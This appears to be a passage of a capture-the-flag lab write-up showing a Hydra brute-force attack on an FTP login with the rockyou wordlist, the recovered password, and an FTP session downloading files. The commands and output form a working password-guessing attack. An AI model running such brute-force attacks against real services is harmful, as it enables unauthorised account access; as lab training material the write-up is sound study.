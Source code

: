 # 2. Hash cracking and brute force

- First we will use `Hydra` to brute force the password service `FTP`:

```bash
hydra -t14 -l chris -P /usr/share/wordlists/rockyou.txt -vV 10.10.124.168 ftp
ATTEMPT] target 10.10.124.168 - login "chris" - pass "jesus1" - 248 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.124.168 - login "chris" - pass "crystal" - 249 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.124.168 - login "chris" - pass "celtic" - 250 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.124.168 - login "chris" - pass "zxcvbnm" - 251 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.124.168 - login "chris" - pass "edward" - 252 of 14344399 [child 8] (0/0)
[21][ftp] host: 10.10.124.168   login: chris   password: crystal
[STATUS] attack finished for 10.10.124.168 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-24 21:23:03
```

—> The password: crystal and The user name: chris

- Login the FTP:

```bash
ftp <IP>
Connected to 10.10.124.168.
220 (vsFTPd 3.0.3)
Name (10.10.124.168:zicco): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||20945|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> 
```

- We transfer all file to your machine:

```bash
mget *
mget To_agentJ.txt [anpqy?]? Y
229 Entering Extended Passive Mode (|||32724|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*********************************************************************|   217        3.13 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.54 KiB/s)
mget cute-alien.jpg [anpqy?]? Y
229 Entering Extended Passive Mode (|||9322|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*********************************************************************| 33143       83.31 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (41.50 KiB/s)
mget cutie.png [anpqy?]? Y
229 Entering Extended Passive Mode (|||31628|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*********************************************************************| 34842       87.51 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (43.69 KiB/s)
```